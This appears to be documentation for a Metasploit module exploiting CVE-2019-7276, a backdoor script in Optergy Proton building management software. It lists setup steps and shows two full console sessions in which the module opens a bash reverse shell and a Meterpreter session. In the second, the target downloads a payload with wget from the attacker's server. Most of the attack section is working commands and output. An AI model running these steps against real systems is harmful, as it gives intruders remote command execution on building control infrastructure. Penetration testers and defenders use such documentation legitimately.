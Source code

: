 ## Vulnerable Application

This module exploits an undocumented backdoor vulnerability (CVE-2019-7276) in the Optergy Proton and Enterprise
Building Management System (BMS) applications. Versions `2.0.3a` and below are vulnerable.
Attackers can exploit this issue by directly navigating to an undocumented backdoor script called `Console.jsp`
in the tools directory and gain full system access.
Successful exploitation results in `root` command execution using `sudo` as user `optergy`.

Please check out this [AttackerKB Article](https://attackerkb.com/topics/QrYFIjnd3J/cve-2019-7276) for more info.

Installing a vulnerable test bed requires a Linux machine with the vulnerable software loaded.
Follow instructions [Optergy OVA Download](https://github.com/h00die-gr3y/Metasploit/tree/main/images),
to download an OVA image with a vulnerable Optergy Proton application (v2.0.3a) installed.

This module has been tested against a Optergy Proton installation with the specifications listed below:

* Optergy Proton
* Version: `2.0.3a`
* Linux OS: Debian 7.11

## Verification Steps

1. `use exploit/linux/http/optergy_bms_backdoor_rce_cve_2019_7276`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command, 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options
Option SUDO can be set to escalate to root privileges. Default setting is false.

## Scenarios

### Optergy Proton 2.0.3a on Debian Linux 7.11 - bash reverse shell
```
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > check
[+] 192.168.201.31:80 - The target is vulnerable.
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > options

Module options (exploit/linux/http/optergy_bms_backdoor_rce_cve_2019_7276):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.201.31   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploi
                                       t/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   SUDO     false            yes       Set the sudo option to get root privileges
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an addres
                                       s on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.201.10   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 1 opened (192.168.201.10:4444 -> 192.168.201.31:43322) at 2023-03-22 12:45:22 +0000

whoami
optergy
uname -a
Linux debian 3.2.0-4-amd64 #1 SMP Debian 3.2.96-2 x86_64 GNU/Linux
exit
[*] 192.168.201.31 - Command shell session 1 closed.
```
### Optergy Proton 2.0.3a on Debian Linux 7.11 - Linux Dropper Meterpreter session
```
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > set target 1
target => 1
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > options

Module options (exploit/linux/http/optergy_bms_backdoor_rce_cve_2019_7276):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.201.31   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploi
                                       t/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   SUDO     false            yes       Set the sudo option to get root privileges
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an addres
                                       s on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.201.10   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.10:8080/JKGheHgpr9TQf
[*] Client 192.168.201.31 (Wget/1.13.4 (linux-gnu)) requested /JKGheHgpr9TQf
[*] Sending payload to 192.168.201.31 (Wget/1.13.4 (linux-gnu))
[*] Sending stage (3045348 bytes) to 192.168.201.31
[*] Meterpreter session 2 opened (192.168.201.10:4444 -> 192.168.201.31:43377) at 2023-03-22 12:46:57 +0000
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: optergy
meterpreter > sysinfo
Computer     : 192.168.201.31
OS           : Debian 7.11 (Linux 3.2.0-4-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
```

## Limitations
No limitations identified.
